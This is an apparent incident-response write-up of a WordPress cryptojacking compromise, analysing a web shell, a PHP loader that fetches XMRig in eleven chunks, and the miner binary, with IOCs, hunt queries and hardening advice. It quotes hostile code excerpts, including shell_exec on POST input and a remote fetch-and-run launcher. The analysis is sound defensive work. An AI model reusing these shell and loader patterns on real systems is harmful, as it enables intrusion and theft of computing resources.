





# WordPress → XMRig: Anatomy of a Cryptojacking Compromise

**A technical incident-response case study, with a fully reproducible lab.**

*Author: Isaac Joumessi · Date: 2026-07-14 · Category: Incident Response / Malware Analysis*

> **Ethics & scope.** This analysis was performed on a system I was authorized to
> investigate. The victim is anonymized throughout (client name, real domain, host
> paths, usernames, and IP are redacted). Attacker indicators (wallet, pool, delivery
> URL, sample hash) are published for community threat-intelligence value and are
> **defanged**. A safe, isolated lab that reproduces the entire chain accompanies this
> report — see [Reproducible Lab](#7-reproducible-lab).

---

## 1. Executive summary

An internet-facing WordPress deployment was cryptojacked: an attacker chained a
vulnerable plugin into a web shell, dropped a PHP loader, pulled a **XMRig 6.26.0**
Monero miner in eleven pieces from a Cloudflare Workers endpoint, and ran it directly
out of `wp-content/` — mining to a public pool with the web server's own CPU.

The tell was mundane: **sustained ~100% CPU** and resource exhaustion. What made the
case interesting was the tradecraft — a clean, self-compiled, renamed miner with **no
embedded configuration**, and **persistence that lived entirely in HTTP** rather than
cron or systemd.

| | |
|---|---|
| **Threat type** | Cryptojacking (unauthorized Monero mining) |
| **Miner** | XMRig 6.26.0 (statically-linked, stripped, renamed `wp-worker.exe`) |
| **Entry vector** | Vulnerable WordPress plugin → unauthenticated file upload → web shell |
| **Persistence** | HTTP-triggered relaunch via a dropped PHP endpoint (no host persistence) |
| **Impact** | CPU/resource abuse, degraded service, attacker-controlled RCE on the app |
| **Host persistence found** | None (no cron, no systemd) |

---

## 2. Attack chain



Three artifacts, each with one job:

| File | Role | Language |
|------|------|----------|
| `wp-loader.php` | Web shell — HTTP Basic auth, file manager, file editor, `shell_exec` | PHP |
| `wp-helper.php` | Loader/dropper — fetches the miner, launches it, acts as a health check | PHP |
| `wp-worker.exe` | The XMRig Monero miner | ELF (x86-64) |

---

## 3. Artifact analysis

### 3.1 `wp-loader.php` — the web shell

A compact but complete web shell. It gates access behind HTTP Basic auth, then
exposes directory listing, arbitrary file upload, an inline file editor, and — the
payload — raw command execution:


*The `wp-loader.php` web shell, authenticated — reproduced in the isolated lab.*

```php
// Hardcoded operator credentials
$username = "admin";
$password = "AsterISK";
...
// Arbitrary command execution
if (!empty($_POST['command'])) {
    $output = shell_exec($_POST['command']);
    echo "<pre>" . htmlspecialchars($output) . "</pre>";
}
```

Capabilities:
- **`move_uploaded_file()`** — drop any file anywhere the web user can write.
- **`file_put_contents()`** — write/patch files via the editor form.
- **`shell_exec()`** — full command execution as the web-server user.

This single file is enough to stage the rest of the operation. The Basic-auth wall
is the attacker keeping *other* opportunists out of their shell.

### 3.2 `wp-helper.php` — the loader / dropper

The most interesting artifact operationally. It is a self-contained miner manager:

**(a) Idempotent launch — it won't double-run.** It first checks whether the miner
is already alive, which is also what makes it a perfect health-check endpoint:

```php
function isXmrigRunning(): bool {
    $cmd = "ps aux | grep -v grep | grep -q 'wp-worker'";
    exec($cmd, $output, $exitCode);
    return $exitCode === 0;
}
```

**(b) Chunked delivery — the miner arrives in 11 parts.** Rather than pull one 8 MB
binary (noisy, easy to block/scan), the loader downloads eleven fragments and
reassembles them:

```php
$baseURL = 'http://<delivery-host>/';   // Cloudflare Workers endpoint (defanged in IOCs)
$parts = [ ['url' => 'wp-worker.part1', 'size' => 800*1024], ... 11 parts ... ];
for ($i = 0; $i < 11; $i++) {
    file_put_contents($filePath, fopen($baseURL . $parts[$i]['url'], 'r'));
    // size-validated, retried up to 5×, then merged into wp-worker.exe
}
```

Eleven sequential `GET /wp-worker.partN` to one host, in seconds, is a **very
distinctive network IOC**.

**(c) Detached execution — survives the request.** The miner is launched with
`setsid` + `nohup` so it outlives the PHP request that spawned it, sized to half the
cores to stay under the radar:

```php
$threads = (int)(shell_exec('nproc') ?: 1) / 2;
$cmd = sprintf('setsid nohup %s -o %s -u %s -t %d -p %s > /dev/null 2>&1 &',
    escapeshellarg($workerPath), escapeshellarg($pool),
    escapeshellarg($wallet), $threads, escapeshellarg($cpuModel));
shell_exec($cmd);
```

**(d) Persistence by polling.** Because a single GET restarts a dead miner, the
attacker needs no foothold on the host — they just re-request `wp-helper.php` on a
timer. Access logs from the incident showed exactly that: repeated
`GET /wp-content/wp-helper.php → 200` every few hours.


*Requesting `wp-helper.php` returns the running miner's process line. Shown with lab
IOCs (`lab-pool.internal`, `LAB_WALLET_DO_NOT_USE`); on the victim these were the real
pool and wallet.*

### 3.3 `wp-worker.exe` — the miner (static analysis)

Despite the `.exe` name, this is a Linux ELF — the extension is pure masquerade
(and blends with WordPress's own filenames).

```text
$ file wp-worker.exe
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked,
BuildID[sha1]=c746d5445679e29ea09a8ae5bdc7fbbbf3720c44, stripped

$ sha256sum wp-worker.exe
b20f39fc00d242e706b6c30367ad811c676e0575050a4ec2f30104b696944b49

$ size / arch:  8,350,992 bytes · x86-64 · EXEC · entry 0x40e5f3
```

String analysis identifies it unambiguously and pulls out the build fingerprint:

```text
$ strings wp-worker.exe | grep -iE 'XMRig [0-9]|donate|randomx|rx/0'
XMRig 6.26.0
rx/0    rx/wow    randomx    argon2
dev donate started / dev donate finished        <- stock XMRig dev-fee code paths
api.xmrig.com   https://xmrig.com/benchmark/%s

$ strings wp-worker.exe | grep -i 'GCC:'
GCC: (Alpine 13.2.1_git20231014) 13.2.1 20231014
```

**Reverse-engineering takeaways:**

1. **It's stock XMRig 6.26.0** — RandomX (`rx/0`) miner, statically linking `libuv`,
   `hwloc`, and `OpenSSL`. The dev-donate strings are the unmodified upstream ones.
2. **Self-compiled on Alpine/musl.** The `GCC (Alpine 13.2.1)` toolchain string means
   this wasn't the official release binary — it was rebuilt. Recompiling yields a
   **brand-new hash**, defeating signature-only AV that only knows the official
   release hashes. Static linking makes it portable to any x86-64 host and removes
   dependency artifacts an analyst could pivot on.
3. **No embedded pool or wallet.** Grepping the binary for the pool/wallet finds
   nothing — configuration is entirely externalized to the command line supplied by
   `wp-helper.php`. That's a deliberate design: **one clean binary, per-victim config**,
   so the same file can be redeployed everywhere and carries no operational tell.
4. **Stripped** — no symbol table, raising the bar for deeper reversing, though the
   abundant upstream strings make family attribution trivial.

Runtime confirmation from the host process table (miner as a direct child of
`apache2`, i.e. spawned by PHP, running as the web user):

```text
UID     PID     PPID   CMD
<web>   80352   6789   /var/www/html/wp-content/wp-worker.exe -o pool.supportxmr[.]com:3333 \
                       -u <attacker-wallet> -t 4 -p <cpu-model>
<web>   6789    5804   apache2 -DFOREGROUND
```

---

## 4. Indicators of Compromise

See [`IOCs.md`](./IOCs.md) for the copy-paste list (and a YARA rule). Summary:

| Type | Indicator |
|------|-----------|
| Host file | `wp-content/wp-worker.exe` (ELF, `.exe` name) |
| Host file | `wp-content/wp-helper.php` (loader) |
| Host file | `wp-content/wp-loader.php` (web shell) |
| SHA-256 | `b20f39fc00d242e706b6c30367ad811c676e0575050a4ec2f30104b696944b49` |
| Miner | XMRig 6.26.0 (RandomX) |
| Pool | `pool.supportxmr[.]com:3333` |
| Delivery | Cloudflare Workers endpoint serving `wp-worker.part1..11` (defanged in IOCs) |
| Web log | recurring `GET /wp-content/wp-helper.php → 200` (keepalive) |
| Web log | burst of 11× `GET /wp-worker.partN` |
| Process | `wp-worker`/XMRig parented by `apache2`/`php-fpm`, arg `-o <host>:3333` |

---

## 5. Root cause



- **A vulnerable, internet-exposed WordPress plugin** provided unauthenticated code
  drop. (In the reproduction lab this is modeled with **wp-file-manager 6.0 /
  CVE-2020-25213**, a real unauthenticated arbitrary-upload bug.)
- **`FS_METHOD=direct`** plus the container running as a user that **owns the
  WordPress files** gave PHP write access across `wp-content` — including writing and
  `chmod +x`-ing a binary.
- **No egress restrictions** let the web host both fetch the payload and reach a
  public mining pool.

---

## 6. Detection & hardening

Each control below breaks a specific link in the chain.

| Control | Link it breaks |
|---------|----------------|
| Remove/patch the vulnerable plugin | **Initial access** |
| Drop `FS_METHOD=direct`; run WordPress as a non-owning user | **Write** of shell/binary into the web root |
| Web-server: deny PHP execution in `uploads/`, deny `.exe` under `wp-content/` | **Execution** of shell/binary |
| Egress filtering (block outbound `:3333` / unknown pools) | **Mining** — miner is inert |
| File-integrity monitoring on `wp-content/` | **Early detection** |
| fail2ban on `wp-login.php`, strong creds, disable `xmlrpc.php` | Weak-credential alternative to the CVE |

**Hunt queries:**

```bash
# Miner-like process spawned by the web server
ps -eo user,pid,ppid,args | grep -E '\-o .*:3333|xmrig|wp-worker' | grep -v grep

# Foreign executables / loaders in the web root
find /var/www -type f \( -name '*.exe' -o -name 'wp-helper.php' -o -name 'wp-loader.php' \)

# Delivery burst in access logs
grep -E 'wp-worker\.part[0-9]+|wp-helper\.php' access.log
```

---

## 7. Reproducible lab

The entire chain is reproduced in a **self-contained, internet-isolated Docker lab**,
so the community can study it safely. It runs a *real* XMRig — but on an
`internal: true` network with **no route off the host**, sinking into a local fake
Stratum pool. It ships two modes: exploit the real CVE, or start from a pre-seeded
shell for incident-response practice.



Isolation is provable — from inside the miner's own container, the real pool is
unreachable while the lab CDN is:

```bash
docker compose exec wordpress sh -c \
  'curl -m6 -s -o /dev/null -w "%{http_code}" http://pool.supportxmr.com:3333 || echo BLOCKED'
# BLOCKED
```

➡️ **Lab, payloads, and step-by-step walkthroughs:** [`academy-wp-lab/`](../academy-wp-lab/README.md)
(attacker walkthrough, defender IR, detection & hardening).

---

## 8. Key takeaway

A WordPress site exposed to the internet is not "just a website" — it's an
application server. One vulnerable plugin plus one over-permissioned PHP process is
enough for an attacker to execute code, deploy malware, and monetize your CPU. And
note where the sophistication actually was: not in the miner (stock XMRig), but in
the **delivery and persistence** — a self-compiled binary with no embedded config,
chunked delivery, and persistence that never touched the host. Defense has to cover
detection, investigation, and recovery — not just prevention.

---

## References

- XMRig — https://github.com/xmrig/xmrig
- CVE-2020-25213 (wp-file-manager unauthenticated upload) — NVD
- MITRE ATT&CK: T1190 (Exploit Public-Facing App), T1505.003 (Web Shell),
  T1496 (Resource Hijacking), T1071.001 (Web Protocols / C2)
